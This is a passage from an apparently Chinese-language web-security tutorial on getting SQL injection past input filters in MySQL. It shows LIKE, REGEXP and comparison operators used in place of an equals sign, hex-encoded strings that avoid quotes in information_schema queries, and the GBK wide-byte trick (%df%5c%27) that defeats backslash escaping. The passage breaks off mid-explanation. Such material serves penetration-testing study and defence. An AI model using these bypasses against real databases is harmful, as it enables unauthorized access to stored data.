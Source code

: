 <font style="color:rgb(77, 77, 77);">不加上通配符的like可以用来取代=：</font>

```sql
 Select * from cms_users where username like "admin";
```

#### <font style="color:rgb(77, 77, 77);">REGEXP</font>
<font style="color:rgb(77, 77, 77);">regexp:MySQL中使用 REGEXP 操作符来进行正则表达式匹配</font>

```sql
Select * from cms_users where username REGEXP "admin";
```

#### 大于号小于号
<font style="color:rgb(77, 77, 77);">使用大小于号来绕过</font>

```sql
Select * from cms_users where userid>0 and userid<2; #userid=1
```

<font style="color:rgb(77, 77, 77);"><> 等价于 != ,所以在前面再加一个 ! 结果就是等号了</font>

```sql
Select * from cms_users where !(username <> "admin");
```

### <font style="color:rgb(79, 79, 79);">10.对单引号的绕过</font>
#### 使用十六进制
<font style="color:rgb(77, 77, 77);">会使用到引号的地方一般是在最后的where子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：</font>

```sql
select column_name  from information_schema.tables where table_name="users"
```

<font style="color:rgb(77, 77, 77);">这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这样的问题就要使用十六进制来处理这个问题了。</font>  
<font style="color:rgb(77, 77, 77);">users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：</font>

```sql
select column_name  from information_schema.tables where table_name=0x7573657273
```

#### 宽字节绕过
<font style="color:rgb(77, 77, 77);">过滤单引号时，可以试试宽字节</font>

<font style="color:rgb(77, 77, 77);">过滤 ' 的时候往往利用的思路是将 ' 转换为 \' 。</font>

<font style="color:rgb(77, 77, 77);">在 mysql 中使用 GBK 编码的时候，会认为两个字符为一个汉字</font>

<font style="color:#601BDE;">%df</font><font style="color:rgb(77, 77, 77);"> 吃掉 \ 具体的方法是 urlencode(’) = </font><font style="color:#601BDE;">%5c%27</font><font style="color:rgb(77, 77, 77);">，我们在 </font><font style="color:#601BDE;">%5c%27</font><font style="color:rgb(77, 77, 77);"> 前面添加 </font><font style="color:#601BDE;">%df</font><font style="color:rgb(77, 77, 77);"> ，形成</font><font style="color:#601BDE;">%df%5c%27 </font><font style="color:rgb(77, 77, 77);">，而 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，</font><font style="color:#601BDE;">%df%5c</font><font style="color:rgb(77, 77, 77);"> 就是一个汉字，</font><font style="color:#601BDE;">%27</font><font style="color:rgb(77, 77, 77);"> 作为一个单独的 ’ 符号在外面：</font>
